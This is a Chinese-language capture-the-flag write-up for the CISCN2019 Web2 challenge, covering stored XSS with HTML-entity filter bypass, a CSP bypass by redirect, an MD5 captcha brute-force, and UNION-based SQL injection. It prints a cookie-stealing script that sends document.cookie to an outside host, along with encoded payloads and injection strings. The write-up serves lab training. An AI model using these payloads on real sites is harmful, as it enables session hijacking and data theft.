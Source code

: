 # \[CISCN2019 华东北赛区]Web2

## \[CISCN2019 华东北赛区]Web2

## 考点

* xss
* sql注入

## wp

登录注册，有个投稿和反馈的功能。

投稿输入

```javascript
<img src="ssssss.png" onerror="javascript:alert(1)" /> 
```

得到文章页面，访问发现存在过滤

```javascript
<img waf等于号”ssssss.png”="" onerror等于号”javascript:alert（1）”="">
```

反馈处有提示`请输入有问题的网址。我会亲自查看`，应该是个XSS，在投稿插入XSS语句，在反馈处让bot访问XSS页面窃取cookie

反馈处的验证要求验证码md5的前6位符合要求，爆破脚本如下

```python
import hashlib

for i in range(1, 10000001):
    s = hashlib.md5(str(i).encode()).hexdigest()[0:6]
    if s == "0fc428":
        print(i)
        break
```

接下来是如何绕过XSS的过滤。测试发现会把`英文的单双引号，英文的括号`换成`中文`的，然后`<,>svg,eval,script`都没过滤。可以尝试HTML实体编码绕过，`'`是`&#x27;`，`"`是`&#x22;`，`(`是`&#x28;`，`)`是`&#x29;`，=是`&#x3D;`

如下payload可以弹窗

```
<svg><script>alert&#x28;1&#x29;</script></svg>
<svg><script>eval&#x28;atob&#x28;&#x27;YWxlcnQoMSk&#x3D;&#x27;&#x29;&#x29;</script></svg>
<svg><script>&#x65;&#x76;&#x61;&#x6c;&#x28;&#x61;&#x74;&#x6f;&#x62;&#x28;&#x27;&#x59;&#x57;&#x78;&#x6c;&#x63;&#x6e;&#x51;&#x6f;&#x4d;&#x53;&#x6b;&#x3d;&#x27;&#x29;&#x29;</script></svg>
```

编码脚本

```python
res = ''
s="eval(atob('YWxlcnQoMSk='))"
for i in s:
    res = res + '&#' +hex(ord(i))[1:] + ';'
```

发现有CSP，可以使用跳转绕过

* `default-src 'self'` 所有的外部资源只能从当前域名加载
* `script-src unsafe-inline` 允许执行页面内嵌的标签和事件监听函数
* `script-src unsafe-eval` 允许将字符串当作代码执行，比如使用eval、setTimeout、setInterval和Function等函数

![](<../.gitbook/assets/image (2) (1).png>)

到XSS平台新建个项目，然后访问script脚本，得到代码

```javascript
(function() { (new Image()).src = 'https://as.vip/bdstatic.com/?callback=jsonp&id=nRaT&location=' + encodeURIComponent((function() {
        try {
            return document.location.href
        } catch(e) {
            return ''
        }
    })()) + '&toplocation=' + encodeURIComponent((function() {
        try {
            return top.location.href
        } catch(e) {
            return ''
        }
    })()) + '&cookie=' + encodeURIComponent((function() {
        try {
            return document.cookie
        } catch(e) {
            return ''
        }
    })()) + '&opener=' + encodeURIComponent((function() {
        try {
            return (window.opener && window.opener.location.href) ? window.opener.location.href: ''
        } catch(e) {
            return ''
        }
    })());
})();
```

然后把(new Image()).src改成window.location.href，结果如下

```javascript
(function() { window.location.href = 'https://as.vip/bdstatic.com/?callback=jsonp&id=nRaT&location=' + encodeURIComponent((function() {
        try {
            return document.location.href
        } catch(e) {
            return ''
        }
    })()) + '&toplocation=' + encodeURIComponent((function() {
        try {
            return top.location.href
        } catch(e) {
            return ''
        }
    })()) + '&cookie=' + encodeURIComponent((function() {
        try {
            return document.cookie
        } catch(e) {
            return ''
        }
    })()) + '&opener=' + encodeURIComponent((function() {
        try {
            return (window.opener && window.opener.location.href) ? window.opener.location.href: ''
        } catch(e) {
            return ''
        }
    })());
})();
```

用脚本生成一下payload，在XSS平台可以看到自己的cookie

```python
s = '''(function(){window.location.href='https://as.vip/bdstatic.com/?callback=jsonp&id=nRaT&location='+encodeURIComponent((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+encodeURIComponent((function(){try{returntop.location.href}catch(e){return ''}})())+'&cookie='+encodeURIComponent((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+encodeURIComponent((function(){try{return (window.opener&&window.opener.location.href)?window.opener.location.href:''}catch(e){return''}})());})()'''
output = ""

for i in s:
    output += "&#" + hex(ord(i))[1:] + ";"

print("<svg><script>eval&#x28;&#x22;" + output + "&#x22;&#x29;</script></svg>")
```

<mark style="color:red;">然后到反馈里面填链接如下</mark>

```
http://web.node3.buuoj.cn:81/post/8933fc518918c6156409c3c2fe884a5f.html
```

![](<../.gitbook/assets/image (11) (1) (1) (1).png>)

修改cookie再去访问admin.php，发现是个查询的功能

![](<../.gitbook/assets/image (28) (1) (1).png>)

尝试SQL注入，输入`id=3-1`，得到`id=2`的结果，是数字型注入

然后尝试联合注入`id=-1 union select 1,2,3`

当前数据库`id=-1 union select 1,(select database()),3` 得到`ciscn`

查询所有数据库`id=-1 union select 1,(select group_concat(schema_name) from information_schema.schemata),3`

得到`information_schema,ctftraining,mysql,performance_schema,test,ciscn`

当前数据库的表`id=-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='ciscn'),3`

得到`flag,users`

查询flag表`id=-1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='flag'),3`

得到`flagg`

查询flag `id=-1 union select 1,(select flagg from flag),3`

可以得到flag

![](<../.gitbook/assets/image (14) (1).png>)

## 小结

1. XSS绕过的方式可以用HTML实体转义，有两种方式`&#x十六进制;`和`&#十进制;`
2. CSP绕过可以尝试`window.location.href`跳转的方式

